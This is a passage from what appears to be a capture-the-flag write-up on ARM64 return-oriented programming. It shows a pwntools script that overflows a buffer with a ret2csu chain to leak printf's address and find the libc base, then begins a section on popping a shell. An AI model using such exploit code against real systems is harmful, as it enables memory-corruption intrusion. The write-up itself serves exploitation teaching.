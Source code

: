 ```python
############ Phase 3 - Leak System Addr  #################                                                                   [9/272]
                                                                                                                                    
# Setup ret2csu args:
csu_popper = elf.symbols['__libc_csu_init']+104                  
csu_caller = elf.symbols['__libc_csu_init']+72
log.debug(f"{hex(csu_popper)=}")                                  
log.debug(f"{hex(csu_caller)=}")                                  
# Gadget list
rop_nop = PIE_BASE + 0x934  # Found with roppea
                                 
# build the message buffer                                                                                                          
message = p64(rop_nop) # The stack address we leaked earlier points to the top of our buffer
message += b"G"*0x20 # trigger overflow
message += p64(csu_popper)  # rp overwrite - call our ret2csu chain
message += b"J"*0x8         # popper reads sp into x29 
message += p64(csu_caller)  # As above this will be popped into x30
message += p64(0x00)        # As above x19
message += p64(0x01)        # As above x20
message += p64(STACK_LEAK)  # x21 - our stack leak will point up to rop_nop
message += p64(elf.got['printf']) #x22 - what we're printing
message += b"L"*0x18        # Junk forx23 and x24 and x29
message += p64(elf.symbols['vuln']+ 0x2c) # This is the ret address - not PRINTF but instead vuln printf()
message += b"Q" * 0x8      # PAd out for overflow - not sure if I need?

p.sendlineafter(b"message now: ",message)
p.clean()       # Clean up the pipe (main handles the user prompt) and send another name to analysis
LIBC_LEAK = p.read(4).strip()   # We'll get 4 bytes back for libc                                                                   
LIBC_LEAK = u64(LIBC_LEAK.ljust(8,b"\x00"))
LIBC_LEAK = LIBC_LEAK - libc.symbols['printf']   
log.success(f"LEaked Libc: {hex(LIBC_LEAK)}")
```

## Popping shell with ROP

Now we have libc_base and we want to call system! Checking out one_gadget:

![Starting to ROP](/assets/images/posts/baby_arm_rop/rop_1.png)
